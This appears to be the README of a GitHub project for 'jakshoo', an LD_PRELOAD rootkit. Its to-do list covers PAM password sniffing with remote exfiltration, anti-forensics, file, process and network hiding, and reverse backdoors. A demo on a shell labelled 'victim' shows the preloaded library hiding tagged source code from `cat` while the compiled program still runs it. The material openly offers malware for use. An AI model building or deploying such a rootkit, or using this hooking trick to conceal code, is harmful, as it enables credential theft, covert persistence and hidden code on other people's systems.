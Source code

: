 # jakshoo
LD_PRELOAD rootkit

## To-do

- [ ] PAM sniffing (Get SSH, LDAP, etc.. passwords) / Remote exfiltration
- [ ] File content tampering
- [ ] Anti-debugging / Anti-forensics
- [ ] File hiding
- [ ] Network hiding
- [ ] Process hiding
- [ ] backdoor (blind / reverse)

## Usage
### File content tampering
### Current state: 
- Done with stack based binaries, issues with data stored on heap
- To-do: hook implementations for `libstdc++.so.6`

Hide file contents by using tags.

Real file:
```
[victim:~]$ cat test.c                                                                                                                   
#include <stdio.h>
int main(){
	//obfuscate_start
	printf("this is code");
	//obfuscate_stop
	return 0;
}

```

Tampered file:
```
[victim:~]$ export LD_PRELOAD=./libjakshoo.so                                                                                               
[victim:~]$ cat test.c                                                                                                                     
#include <stdio.h>
int main(){
	return 0;
}
[victim:~]$ gcc test.c -o test                                                                                                           
[victim:~]$ ./test                                                                                                                       
this is code%  
```
